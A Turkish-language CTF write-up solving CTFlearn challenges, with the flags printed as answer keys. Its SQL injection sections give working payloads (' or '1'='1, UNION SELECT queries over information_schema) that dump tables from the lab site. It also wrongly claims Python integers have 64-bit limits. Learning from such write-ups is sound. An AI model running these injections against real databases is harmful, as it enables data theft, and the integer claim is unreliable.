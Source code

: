 ## CTF Learn

### BASIC INJECTION

Bu aşamada başlıkta temel bir injection açığı olduğu belirtilmiş ve bize **[](https://web.ctflearn.com/web4/)** şeklinde bir link verilmiş. Linke gittiğimizde bizden input bekleyen bir alan var, direkt kaynak kodlarına bakıyoruz form kısmında **action = "."** satırını görüyoruz buradaki **.** şu işe yarar aynı **URL** yi döndürür fakat farklı parametrelerle. Alt kısımlarda `<!-- Try some names like Hiroki, Noah, Luke -->` şeklinde bir yorum satırı var buradali isimleri tek tek denediğimizde Luke isminin çıktısında **Name: Luke Data: I made this problem**. Şeklinde bir ifade görüyoruz Aklımıza hemen **SQL Injection** açığı geliyor sistem veri tabanında isim sorguluyor eğer isim veri tabanında varsa column ları çekip getiriyor. **SQL** Sorgusunu kabaca yazdığımızda şu şekilde bir şey olması gerekiyor. 

`SELECT * FROM users WHERE username = 'Luke';` burada username kısmına bizden alınan değer giriliyor biz input 
olarak `' or '1' = '1` Şeklinde bir veri girersek direkt tablodaki bütün columnları ve verileri çekeriz biz bu veriyi 
girdiğimizde sorgu aşağıdaki gibi olacak. `SELECT * FROM users WHERE username = '' or '1' = '1';` Bu sorgu şunu ifade eder **users** tablosundan **username** i '' (Boş) yada `'1' = '1'` (True döndürür burası) olan ları getir burada **WHERE** İfadesinden sonra **username**='' kısmı **False** döndürse bile or (yada) dediğimiz için ve **'1' = '1'** Herzaman **True** 
döndüreceği için direkt verileri çekeriz. `' or '5' = '5  Yada ' or 'a' = 'a` gibi verilerde girilebilir. 

> flag{th4t_is_why_you_n33d_to_sanitiz3_inputs}

### FORENSICS 101

Burada bize bir .jpg uzantılı fotoğraf verilmiş ve bayrağın içinde bir yerde olduğunu söylemişler. Linux ta string komutu ile dosyayı okuttuğumuzda **flag{wow!_data_is_cool}** şeklinde bayrağı direkt yakalıyoruz.

> flag{wow!_data_is_cool}

### IP TRACER

Bob un amatör bir hacker olduğunu ve 159.167.16.5 IP adresinin lokasyonunu öğrenmeye çalıştığı söylenmiş IP location finder dan hemen lokasyonuna bakıyoruz.

> London

### INJ3CTION TIME

Bu aşama çok mükemmel bir SQL Injection zafiyeti barındırıyor çözerken çok muhteşem bir haz aldım :). Burada bizden input olarak ID alınyor ve veri tabanında bir sorgu gerçekleştiriliyor ve kullanıcı bilgileri bize getiriliyor ve bu işlemler GET metodu ile yapılıyor bu şekilde URL den ilerleyebiliriz. **https://web.ctflearn.com/web8/?id=1** şeklinde bir url miz var burada ID değerini değiştirerek farklı sonuçlar alabilriiz fakat hiç bulunmayan bir id değeri girdiğimizde sonuç almayız **"-1"** gibi :). Burada yapmamız gereken rastgele bir ID değeri girmek ve ardından **or 1 = 1** gibi bir sorgu gerçekleitirmek bu sayede ID değeri eşleşsede eşleşmesede (True da dönse False de dönse) or (yada) dediğimiz için ve 1 sürekli 1 e eşit olduğu için bize bütün sonuçları döndürecektir **(https://web.ctflearn.com/web8/?id=-1 or 1 = 1)**. Bu aşamadan sonra **ORDER BY** diyerek  herhangi bir column a özgü sıralama ile sonuç alabiliriz bu Komutu kullanarak aslında column sayısını öğrenebiliriz. **(https://web.ctflearn.com/web8/?id=-1 or 1 = 1 order by 1,2,3,4,5)** Gibi bir sorgu gerçekleştirdiğimizde sonuç alamayız fakat **(https://web.ctflearn.com/web8/?id=-1 or 1 = 1 order by 1,2,3,4)** şeklinde bir sorgu gerçekleştirirsek sonuç alırız buda demek oluyorki 4 tane column (stun) a sahibiz. Bütün bu aşamalardan sonra union komutu ile komutları birleştirerek bir çok bilgiye ulaşabiliriz. **(https://web.ctflearn.com/web8/?id=-1 or 1 = 1 union select 1,2,3,4)** Şeklinde sorgu ile columnları getirebiliriz buradaki 1,2,3,4 sayıları column isimleri değildir sadece semboliktir yani 1,2,3,4 sıradaki columnları getir gibi. Burada 1 yerine `NOW()`, 2 yerine `VERSION()`, 3 yerine `DATABASE()` yazarak version seçili olan database ve tarih ve saat gibi bilgilere erişebiliriz yani SQL Fonksiyonları çağırabiliriz `(DATABASE() = webeight)`. Bu aşamalardan sonra tablolara ve columnlara ve verilere erişmemiz gerekecek bunun için `group_concat()` Fonksiyonu kullanılabilir.

`https://web.ctflearn.com/web8/?id=-1 or 1 = 1 union select group_concat(schema_name),2,3,4 from 
information_schema.schemata` Veri tabanlarını getiren sorgu. 
`https://web.ctflearn.com/web8/?id=-1 or 1 = 1 union select group_concat(table_name),2,3,4 from 
information_schema.tables where table_schema = database() `Şeklinde bir sorgu ile tabloları çekebiliriz. **where** 
**table_schema = database()** şeklinde bir filtreleme yapmasa idil bütün tabloları getirirdi bu filtre ile birlikte 
yalnızca webeight databasesine ait tablolar getirilir.) **Tablolar: w0w_y0u_f0und_m3 , webeight (w0w_y0u_f0und_m3** 
**isimli tablo dikkatimizi çekiyor.)**
`https://web.ctflearn.com/web8/?id=-1 or 1 = 1 union select group_concat(column_name),2,3,4 from 
information_schema.columns where table_schema = database()` Columnları çekmek için bir üst sorguya benzer bir 
sorgu kullanıyoruz **(Columns : f0und_m3 , breed , name , color , id)**. f0und_m3 dikkatimizi çekiyor hemen.
`https://web.ctflearn.com/web8/?id=-1 or 1 = 1 union select group_concat(f0und_m3),2,3,4 from w0w_y0u_f0und_m3) `Şeklinde bir sorgu ile bayrağı yakalıyoruz.

> abctf{uni0n_1s_4_gr34t_c0mm4nd}

> %23 - # anlamına gelmektedir.
>
> %09 - tab ifadesi (4 boşluk) 

### SIMPLE PROGRAMMING

Bu aşamada bize data.dat diye bir dosya verilmiş ve içerisi full 0 ve 1 lerden oluşan verilerle dolu. Soruda ise şöyle söylenmiş 0 ların sayılarının 3 ün katı olan veya 1 lerin sayılarının 2 nin katı olan kaç satır vardır demiş bizde hemen python3 ile ufak bir kod yazdık ve cevabı bulduk code aşağıdaki gibi.

```python
#! /usr/bin/env/python3
line = 0
with open('./data.dat','r') as file:
    for x in file:
        zero = x.count('0')
        one = x.count('1')
        if zero % 3 == 0 or one % 2 == 0:
            line += 1
        else: pass
print(line)
```

> 6662

### PASTE THOSE BINARIES

**r44LxiXq** şeklinde bir veri verilmiş başlıktan direkt aklımıza pastebin.com geliyor ve **pastebin.com/r44LxiXq** şeklinde linke gitmeyi deniyoruz ve karşımızda flag.

> ABCTF{past3_that_b1n}

### LAZY GAME CHALLENGE

Burada netcat ile bir sunucaya 10001. portta bağlantı kuruyoruz ve orada terminal üzerinde çalışan bir oyun var 500$ parayla başlıyoruz ve para yatırıyoruz daha sonra bilgisayarın tahmin ettiği sayıyı tahmin etmeye çalışıyoruz 1-10 arasında.

Bizim 500$ paramız var eğer biz para yatırırken olmayan bir değer girersek -9223372036854775808 gibi çünkü python da integer değerler -9223372036854775808 ile 9223372036854775807 arasındadır. Oyunu oynadığımızda bayrak karşımıza çıkıyor.

> CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}



